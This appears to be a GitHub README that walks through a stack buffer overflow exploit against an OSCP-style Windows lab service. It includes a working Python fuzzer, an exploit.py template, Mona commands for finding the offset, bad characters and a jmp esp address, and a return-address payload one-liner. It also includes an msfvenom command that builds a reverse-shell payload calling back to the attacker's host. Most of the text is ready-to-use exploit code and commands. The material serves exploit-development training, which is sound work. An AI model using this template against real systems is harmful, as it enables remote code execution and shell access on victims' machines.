 # Buffer-Overflow-Script
The script help you to understand the bascis of Buffer overflow and will save you a lot of time while executing the attack.

I have created different file step by step to make.
Following sequence is as followed

1. Fuzzing (fuzzer.py)
2. Crash Replication & Controlling EIP (Crash Replication.py)
3. Metasploit random pattren 
4. use mona to find out the pattren offset
5. Finding Bad Characters (Badchars.py)
6. Finding a Jump Point
7. Generate Payload
8. Prepend NOPs
**Mona Configuration**

```
!mona config -set workingfolder c:\mona\%p
```

# **Fuzzing**

Create a file on your Kali box called fuzzer.py with the following contents:

fuzzer.py

```python
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1
```

# **Crash Replication & Controlling EIP**

exploit.py

```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

Creating a pattern with -l with no. of crash + 400 as saftey

```python
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

Copy the output and place it into the payload variable of the [exploit.py](http://exploit.py/) script.

To find offset of the EIP (On the Debugger)

findmsp

The findmsp command will find all instances or certain references to a cyclic pattern (a.k.a. “Metasploit pattern”) in memory, registers, etc

```python
!mona findmsp -distance 600
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a809067e-588c-4c61-964c-99f9f967dafb/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a809067e-588c-4c61-964c-99f9f967dafb/Untitled.png)

we are controlling EIP. in the end we need to make jump through it

update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

# **Finding Bad Characters**

just find badchar sending via payload then esp dump thing find the bad chars

jump to them to find the return value

Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).

IMP —- use direct bad chars just edit it no neeed to type shit.

```python
!mona bytearray -b "\x00"
```

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:

```python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```

Update your [exploit.py](http://exploit.py/) script and set the payload variable to the string of bad chars the script generates.

```python
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP_address>
```

ESP > follow the dump for more accurate result

# **Finding a Jump Point**

```python
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' will output the payload we want, but it requires manually converting to little endian
```

```python
Method 2 - Struct:
```

```python
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'
```

```python
It requires importing a module but struct.pack allows us to automatically convert memory to little endian.
```

```python
We print 44 random characters(in this case A) and then our memory address in little endian, and shell should execute. This can be tested by piping the output in to the binary
```

```python
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
```

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):

```python
!mona jmp esp -m gatekeeper.exe
!mona jmp -r esp -cpb "\x00(badchars)"
```

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

Choose an address and update your exploit. script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

# **Generate Payload**

Run the following msfvenom command on Kali, using your Kali VPN IP as LHOST and updating the -b option with all the badchars you identified (including \x00):

```python
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py
```

Copy the generated python code and integrate it into your exploit.py script, e.g. by setting the payload variable equal to the buf variable from the code.

# **Prepend NOPs**

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```
padding = "\x90" * 16

```
